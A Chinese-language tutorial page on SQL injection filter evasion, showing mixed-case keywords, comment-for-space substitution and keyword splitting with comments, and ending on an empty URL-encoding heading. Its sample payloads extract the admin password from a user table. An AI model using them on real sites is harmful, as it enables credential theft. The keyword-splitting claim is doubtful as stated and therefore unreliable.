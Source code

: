 ## 大小写变化
sql语言是不区分大小写额度，所以可以通过变换攻击字符中的大小写来避开他们，从而实现绕过前端。由于前端可能对关键字段如amd select union这些sql字段进行了过滤，所以如果上传了这些单词可定是不能通过过滤的，但是php，java，python这些都是区分大小写的高级语言。而sql是不区分大小写的。因此，打乱了某个字段的大小写，也就是可以变相绕过后台的过滤，从而直接到达数据库。
举例：当order被过滤的时候，使用Order可以跳过过滤。
1. 选择合适的大小写。如order被过滤，则使用Order
<img src="../pictures/cbctpf50vmm.png" width="600" />
查询出来一共有三个字段。
<img src="../pictures/8fa0d224hsw.png" width="600" />
2. 选择合适的大小写Union，从而跳过union字段的过滤。从而获取到数据。


## 使用sql注释
1. 使用注释代替空格
```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```

2. 使用内部连接注释
举例子：以下一句sql
```sql
/**/union/**/select/**/password/**/from/**/tblUsers/**/where/**/uusername/**/like/**/'admin'
```
可以改写成
```sql
/**/un/**/ion/**/se/**/lect/**/password/**/fr/**/om/**/tblUsers/**/wh/**/ere/**/uusername/**/li/**/ke/**/'admin'
```
.因此可以看出，我们可以使用内联注释来对关键字符进行拆分，从而实现越过过滤器

## 使用url编码


